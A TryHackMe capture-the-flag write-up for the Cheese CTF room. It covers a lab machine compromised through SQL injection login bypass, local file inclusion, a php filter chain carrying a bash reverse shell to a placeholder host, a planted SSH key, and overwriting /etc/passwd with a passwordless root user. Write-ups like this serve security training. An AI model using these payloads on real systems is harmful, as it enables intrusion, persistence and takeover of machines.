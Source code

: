 # Cheese CTF - TryHackMe Writeup 🧀

Welcome to my writeup for the [Cheese CTF](https://tryhackme.com/room/cheesectfv10) room on [TryHackMe](https://tryhackme.com/).

This room focuses on web vulnerabilities, manual enumeration, and privilege escalation. Below, I walk through each step I took to compromise the machine and gain root access.

> ⚠️ This is for educational purposes only.

# Port Scanning
We began with a full Nmap scan, which returned over 100 open ports — most of them false positives or irrelevant.

The only ports of real interest were:
```python
Port 80 (HTTP)
Port 22 (SSH)
```
# Enumeration
```python
gobuster dir -u http://10.10.26.246 -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html
```
Interesting results:
```python
/images               (Status: 301)
/index.html           (Status: 200)
/login.php            (Status: 200)
/messages.html        (Status: 200)
/orders.html          (Status: 200)
/users.html           (Status: 200)
```
The most interesting files were /login.php and /messages.html.

# Initial Access - SQL Injection
Using a basic SQLi payload on /login.php:
```python
admin' || '1'='1'; -- -
```
We bypassed authentication and were redirected to a new page:
```python
http://10.10.26.246/secret-script.php?file=php://filter/resource=supersecretmessageforadmin
```
Testing with:
```python
http://10.10.26.246/secret-script.php?file=php://filter/resource=/etc/passwd
```
✅ Confirmed LFI (Local File Inclusion) vulnerability.

# LFI to Shell
To exploit LFI and get a reverse shell, we used this tool:
```python
https://github.com/synacktiv/php_filter_chain_generator
```
Generated payload:
```python
python3 php_filter_chain_generator.py --chain "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1'\"); ?>" | grep "^php" > payload.txt
```
Started listener:
```python
nc -lvnp 4444
```
Then we injected the payload by browsing to:
```python
http://10.10.26.246/secret-script.php?file=<base64_payload_here>
```
✅ We received a reverse shell.

# SSH Access
In the shell, we checked ~/.ssh/ and found an authorized_keys file.
Steps:
1. Generated SSH key locally:
```python
ssh-keygen -t rsa
```
2. Appended our public key to the target's authorized_keys:
```python
echo "<id_rsa.pub>" >> authorized_keys
```
3. Logged in with our private key:
```python
ssh -i id_rsa comte@<ip>
```
Read the user flag:
```python
cat /home/comte/user.txt
```
# Privilege Escalation
Checking sudo permissions:
```python
sudo -l
```
We could run the following without password:
```python
/bin/systemctl daemon-reload
/bin/systemctl restart exploit.timer
/bin/systemctl start exploit.timer
/bin/systemctl enable exploit.timer
```
Looking into /etc/systemd/system/exploit.timer revealed a missing [Timer] option
```python
OnBootSec=5
```
The service file (exploit.service) showed it executed /opt/xxd.
Used [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/) to write to /etc/passwd:
```python
echo "KRY::0:0:KRY:/root:/bin/bash" | xxd | /opt/xxd -r - "/etc/passwd"
```
Switched to root:
```python
su KRY
```
Read root flag:
```python
cat /root/root.txt
```
## Conclusion

Thanks for reading my write-up for the Cheese CTF room on TryHackMe.  
This was a fun and educational challenge that helped reinforce concepts like LFI, SQLi, and privilege escalation.

